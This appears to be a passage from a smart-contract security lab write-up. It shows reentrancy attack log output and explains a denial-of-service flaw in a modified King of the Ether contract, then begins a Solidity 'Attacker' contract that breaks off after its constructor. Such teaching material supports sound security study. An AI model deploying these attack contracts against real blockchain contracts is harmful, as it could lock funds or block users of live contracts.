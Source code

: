 ```
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    2
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    1
    [Reentrancy-Attacker] calling the victim again...
    [Reentrancy] withdrawBalance()
    [Reentrancy-Attacker] fallback. Current recursion_limit:
    0
```

<br/>
<br/>
<br/>

# Unchecked External Call

Changes to compile:
  - Change `constant` modifier to `view` on line :76
  - Set visibility to `public` on all functions (lines :65, :76, :95, :161 and :166)
  - Set visibility to `external` on the fallback function (line :90)
  - Change the constructor name from `function KingOfTheEtherThrone() {` to `constructor () public {` (line :65)
  - Set data location to `memory` on line :95 (`function claimThrone (string memory name) public {`)
  - Change data type of `Monarch.etherAddress` (line :22), `wizardAddress` (line :34) and `newOwner` (line :166) to `address payable`
  - Add `emit` at the beggining of line :157, to use the new way of sending events (a `ThroneClaimed`, in this case)
  - Set as payable the function `function claimThrone (string memory name) public payable {`

## Vulnerability explanation

The original "vulnerability" probably refers to this: https://www.kingoftheether.com/postmortem.html (basically, someone used a wallet contract to claim the throne and, when dethroned, couldn't receive the refund)
It's not really a malicious exploit, but a programming error.

However, if we change all `send()`, which simply fails and continues, with a `transfer()`, which throws an exception, then shit starts to get interesting...
This, ironically, is the proposed solution from the "not-so-smart-contracts" team...

In this modified case, a malicious contract could claim the throne forever, by intentionally aborting the transactions before the new king/queen is claimed

## Full exploit

This malicious contract looks like this:
```js
pragma solidity ^0.5.0;

contract IVictim {

    function claimThrone (string memory name) public payable;
}

contract Attacker {

    IVictim victim_contract;

    constructor (address victim_addr) public {

        victim_contract = IVictim (victim_addr);
```